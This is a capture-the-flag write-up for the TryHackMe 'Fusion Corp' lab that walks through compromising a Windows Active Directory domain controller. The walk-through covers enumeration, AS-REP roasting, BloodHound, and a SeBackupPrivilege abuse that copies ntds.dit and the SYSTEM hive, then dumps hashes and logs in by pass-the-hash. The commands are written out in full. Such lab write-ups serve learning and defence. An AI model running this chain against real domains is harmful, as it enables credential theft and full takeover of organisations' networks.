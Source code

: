 ```yaml
---
title: TryHackMe Fusion Corp
categories: [TryHackMe]
tags: [windows, Active Directory, ASREProasting, Kerberoasting, SeBackupPrivilege]
media_subpath: /images/tryhackme_fusioncorp
image:
  path: room-image.jpeg
---
```


Room link: [https://tryhackme.com/room/fusioncorp](https://tryhackme.com/room/fusioncorp)

## Initial Scan

```console
# Nmap 7.95 scan initiated Thu Jul  3 22:12:44 2025 as: /usr/lib/nmap/nmap -sS -sC -sV -T4 -p- -oN nmap.txt 10.10.26.151
Nmap scan report for 10.10.26.151
Host is up (0.036s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: eBusiness Bootstrap Template
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-03 21:15:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: FUSION
|   NetBIOS_Domain_Name: FUSION
|   NetBIOS_Computer_Name: FUSION-DC
|   DNS_Domain_Name: fusion.corp
|   DNS_Computer_Name: Fusion-DC.fusion.corp
|   DNS_Tree_Name: fusion.corp
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-03T21:16:11+00:00
| ssl-cert: Subject: commonName=Fusion-DC.fusion.corp
| Not valid before: 2025-07-02T21:07:47
|_Not valid after:  2026-01-01T21:07:47
|_ssl-date: 2025-07-03T21:16:51+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: FUSION-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-03T21:16:16
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

## Enumeration

Add `fusion.corp` domain to /etc/hosts

Let's start from smb.

No anonymous listing in smb, and `guest` user is disabled.

![nxc-initial](nxc-initial.png)


Potential users were foudn on website (port 80)

```console
Jhon Mickel
Andrew Arnold
Lellien Linda
Jhon Powel
```

![website-team](website-team.png)


Wanted to run `kerbrute` gobuster found interesting directory (backup)

![gobuster](gobuster.png)


![website-backup](website-backup.png)


Got more users! Now we run kerbrute against them

![backup-users](backup-users.png)


![vim-usernames](vim-usernames.png)


Kerbrute returned 1 valid username

![kerbrute](kerbrute.png)

## Initial entry

Run `impacket-GetNPUsers` to test for ASREProasting

```console
impacket-GetNPUsers fusion.corp/ -dc-ip $ip -usersfile kerbrute_valid_users.txt -outputfile hashes.txt
```

It returned hash, use john or hashcat to crack it

![asrepoasting](asreproasting.png)


![john-lparker](john-lparker.png)


Logging in to rpcclient as lparker discovered 1 more user

![rpcclient-enumdomusers](rpcclient-enumdomusers.png)


![rpcclient-getdompwinfo](rpcclient-getdompwinfo.png)


Firstly ran `crakmapexec smb` to get jmurphy's password but then decided to enumerate `ldap` using netexec. And there's password for `jmurphy` user!

```console
netexec ldap $ip -u 'lparker' -p '[REDACTED]' --users
```

![netexec-ldap](netexec-ldap.png)


Before proceeding let's login as lparker to grab flag

### lparker flag

![lparker-flag](lparker-flag.png)


## Privilege Escalation

Copy `SharpHound.ps1` to the directory where you logged in using evil-winrm and upload it to target. On kali it can be found here:

`/usr/share/metasploit-framework/data/post/powershell/SharpHound.ps1`

```console
upload SharpHound.ps1 </path/to/if-needed>
```

Then in evil-winrm run following (it may take a bit of time):

```console
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\lparker\Desktop -Outputprefix “audit”
```
When it finished - download created file

```console
download <audit.....>
```

Start bloodhound and upload downloaded zip file

jmurphy's group

![bloodhound-jmurphy-group](bloodhound-jmurphy-group.png)

Let's now log in to winrm as jmurphy

### jmurphy flag

(You can grab flag from evil-winrm shell)

![smb-jmurphy-flag](smb-jmurphy-flag.png)


![winrm-jmurphy-flag](winrm-jmurphy-flag.png)

We can try method that includes diskshadow and robocopy.

![whoamipriv-jmurphy](whoamipriv-jmurphy.png)


**On your attacker machine**
 - Create file diskshadow.txt

```console
set context persistent nowriters
add volume c: alias something
create
expose %something% h:
```

 - Convert `diskshadow.txt` to be compatible with windows system

```console
unix2dos diskshadow.txt
```

**On target machine**

```console
upload diskshadow.txt

diskshadow /s dishkhadow.txt

robocopy /b h:\windows\ntds . ntds.dit

reg save hklm\system C:\Users\jmurphy\AppData\Local\Temp\system

download system

download ntds.dir  
```

(It takes quite a time to download, just wait for it to download)

![upload-diskshadow](upload-diskshadow.png)

After downloading `ntds.dit` and `system` files run impacket-secretsdump

```console
impacket-secretsdump -ntds ./ntds.dit -system ./system LOCAL 
```

For logging in using Pass-The-Hash attack use NT hash (first one is LM hash and second is NT)

Administrator:500:LM:NT::: 

And now use evil-winrm to login as administrator using retrieved hash (`-H` option)

### system flag

![system-flag](system-flag.png)

